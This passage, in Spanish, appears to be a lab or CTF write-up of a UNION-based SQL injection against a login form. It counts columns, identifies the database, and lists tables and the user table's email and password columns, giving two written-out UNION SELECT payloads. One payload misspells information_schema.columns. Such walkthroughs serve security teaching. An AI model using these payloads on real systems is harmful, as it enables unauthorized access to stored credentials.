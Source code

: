 Para explotar la inyección seguiré los siguientes pasos:

#### Paso 1 - identificación de número de columnas

Intento obtener el número de columnas de la tabla que está utilizando el login. 

Para ello me hago uso de **order by** y del **tamaño de la respuesta**.

<img src="https://user-images.githubusercontent.com/55555187/155851097-6be48c45-0211-462b-a99c-8d883dc67d9f.PNG" title="" alt="err" width="447">    

<img src="https://user-images.githubusercontent.com/55555187/155849574-cf800d27-3863-4768-ae1b-158c9d906d5f.PNG" title="" alt="acc1" width="510">

Observamos que con 4 obtenemos un tamaño de respuesta diferente por lo que la tabla en uso es de 4 columnas.

#### Paso 2 - Identificación de la base de datos

El siguiente paso consiste en identificar la base de datos sobre la que se están realizando las peticiones. Utilizamos la función **database()**.

<img src="https://user-images.githubusercontent.com/55555187/155849576-fb22ef56-268e-4ca1-b4f0-f4ec190187b6.PNG" title="" alt="acc2" width="549">

La base de datos tiene de nombre "**main**".

#### Paso 3 - Identificación de las tablas de la base de datos

Lo siguiente que debemos hacer es identificar las tablas que contiene la base de datos "main".

```
union select 1,2,3,table_name from information_schema.tables where table_schema="main"-- -
```

![acc4](https://user-images.githubusercontent.com/55555187/155849579-0223236b-0484-4cc4-9fcf-adf895697abc.PNG)
Observamos que contiene las tablas:

- blog.

- blog_comment.

- user.

#### Paso 4 - Identificar las columnas de la tabla user

```
union select 1,2,3,column_name from information_schema_columns where table_schema="main" and table_name="user"-- -
```

<img title="" src="https://user-images.githubusercontent.com/55555187/155849581-270e3c72-99a6-4f28-a608-98ecffc3e227.PNG" alt="acc6" width="671">
Observamos que contiene las columnas:

- id.

- email.

- password.

